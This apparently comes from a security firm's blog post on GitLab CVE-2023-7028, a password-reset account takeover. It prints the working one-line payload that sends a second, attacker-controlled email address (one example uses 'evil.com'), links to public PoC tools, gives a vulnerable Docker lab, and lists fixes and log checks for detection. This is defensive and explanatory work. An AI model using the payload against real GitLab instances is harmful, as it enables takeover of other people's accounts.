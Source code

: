 ```yaml
---
title: "How to compromise Gitlab accounts with CVE-2023-7028 vulnerability"
description: "This article details how GitLab is vulnerable to the CVE-2023-7028 flaw and why it should not be publicly exposed."
date: 2024-01-19T17:32:30+01:00
draft: false
images: [/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png]
featuredImage: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
featuredImagePreview: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
tags: ["Pentest", "Exploit", "Gitlab"]
---
```


# 😮 Publicly exposing GitLab in 2024: too risky?

<br>
<br>

Is exposing one's own GitLab a good security practice? Well, you will see that **it is not**.

2024 starts strongly, giving good reasons **not to expose this service on the Internet** (but rather to host it behind a VPN).

## A tense start to the year

On January 11, 2024, GitLab, the renowned community platform, released an important announcement concerning new versions 16.7.2, 16.6.4, and 16.5.6 for GitLab Community Edition (CE) and Enterprise Edition (EE).

Two vulnerabilities are explained:

1. The **CVE-2023-7028** vulnerability :
   - CVSS score of 10/10 😮
   - It allows account takeover via password reset without user interaction.

1. The **CVE-2023-5356** vulnerability : 
   - CVSS score of 9.6/10 😟
   - It allows a user to abuse Slack/Mattermost integrations to execute slash commands as another user.
  
## In brief

The most problematic vulnerability is the first one: **CVE-2023-7028**.

Far from harmless, it is very problematic:

- It allows resetting the password of any user.
- The vulnerability is exploitable without an account.
- The victim's email must be known.
- The payload consists of a single line: `user[email][]=my.target@example.com&user[email][]=hacker@evil.com`

The second vulnerability is just as serious but less easily exploitable.

## Exploitation

To exploit this vulnerability, the PoC is really very simple:


```sh
user[email][]=valid@email.com&user[email][]=attacker@email.com
```

- `valid@email.com` is the victim's address
- `attacker@email.com` is the attacker's address

GitLab creates confusion, allowing an attacker to overwrite the victim's email with their own 😮!

More specifically, a change was made in version 16.1.0 to allow users to reset their passwords using a secondary email address. The vulnerability results from a bug in the email verification process.

👉 More details on GitLab's blog: https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions

## Recommended actions

GitLab recommends the following actions:

1️⃣ **Immediate Update**: It is strongly advised to update GitLab to the latest patched version. For users who have not yet updated, GitLab recommends moving directly to versions 16.7.3, 16.6.5, 16.5.7 or later.

2️⃣ **Enable Two-Factor Authentication (2FA)**: GitLab advises activating 2FA for all accounts. This security measure prevents the exploitation of this vulnerability.

3️⃣ **Integrity Verification**: Self-managed clients are advised to examine their logs to detect any exploitation attempts of these vulnerabilities.

Example:

- Check the `gitlab-rails/production_json.log` file to ensure that no request pointing to the /users/password route contains **multiple email addresses**.
- Check the `gitlab-rails/audit_json.log` file to ensure that the meta.caller_id field of PasswordsController#create and target_details do not contain **multiple email addresses**.
  
## Automation

Many PoCs are available online to automate the exploitation of this vulnerability:

- Made by a talented French developer: https://github.com/Vozec/CVE-2023-7028
- https://github.com/V1lu0/CVE-2023-7028
  
## Vulnerable Docker

For the curious, below is a vulnerable docker compose to practice this vulnerability:

```yaml
version: '3.6'
services:
  gitlab:
    image: 'gitlab/gitlab-ce:16.1.4-ce.0'
    restart: always
    hostname: 'gitlab.domain.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://gitlab.domain.com'
        gitlab_rails['smtp_enable'] = true
        gitlab_rails['smtp_address'] = "smtp_address"
        gitlab_rails['smtp_port'] = 587
        gitlab_rails['smtp_user_name'] = "smtp_user_name"
        gitlab_rails['smtp_password'] = "smtp_password"
        gitlab_rails['smtp_domain'] = "domain.com"
        gitlab_rails['smtp_authentication'] = "login"
        gitlab_rails['smtp_enable_starttls_auto'] = true
    ports:
      - '80:80'
      - '443:443'
      - '22:22'
    volumes:
      - './gitlab/config:/etc/gitlab'
      - './gitlab/logs:/var/log/gitlab'
      - './gitlab/data:/var/opt/gitlab'
```

## Demonstration

A small demonstration below to present the exploitation of the vulnerability:

<video src="/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/exploit.mp4" controls autoplay loop title="Exploiting GitLab with CVE-2023-7028 vulnerability" style="width:100%"></video>

🙏 Patch quickly. Trackflaw is here to help you with this task. Contact us at https://trackflaw.com or by email contact (@) trackflaw.com

## Sources

- https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions